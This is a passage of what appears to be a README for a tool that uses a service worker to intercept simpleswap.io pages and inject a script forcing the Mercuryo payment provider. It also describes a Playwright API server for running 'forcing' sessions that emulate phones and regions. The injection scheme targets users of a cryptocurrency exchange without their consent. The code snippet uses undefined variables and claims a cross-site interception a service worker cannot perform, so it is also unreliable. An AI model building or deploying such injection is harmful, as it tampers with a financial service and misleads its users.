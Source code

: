 ### Key Features
- ✅ Network request interception
- ✅ HTML response modification
- ✅ Automatic script injection
- ✅ Background operation
- ✅ Browser-level control

### Implementation
```javascript
// Service worker fetch interception
self.addEventListener('fetch', (event) => {
    if (url.includes('simpleswap.io') && contentType.includes('text/html')) {
        event.respondWith(
            fetch(event.request).then(response => {
                return response.text().then(html => {
                    const modifiedHtml = injectMercuryoForcing(html);
                    return new Response(modifiedHtml, {
                        status: response.status,
                        headers: response.headers
                    });
                });
            })
        );
    }
});
```

### Deployment
Register service worker on auralo-website-fixed.netlify.app domain.

---

## 4. 🎭 Playwright Automation Server
**File:** `PLAYWRIGHT_AUTOMATION_SERVER.js`

### Overview
Full-featured automation server providing API endpoints for creating browser sessions with Mercuryo forcing.

### Key Features
- ✅ REST API with session management
- ✅ Multiple device emulation (iPhone, Samsung, etc.)
- ✅ Regional testing (US, EU, AU, CA)
- ✅ Real-time forcing with status reporting
- ✅ Screenshot capture capability
- ✅ Continuous forcing over 5+ minutes

### API Endpoints
```javascript
POST /session/create     // Create automation session
GET  /session/:id/status // Get forcing status  
POST /session/:id/force  // Manual force trigger
GET  /session/:id/screenshot // Capture screenshot
DELETE /session/:id      // Close session
```
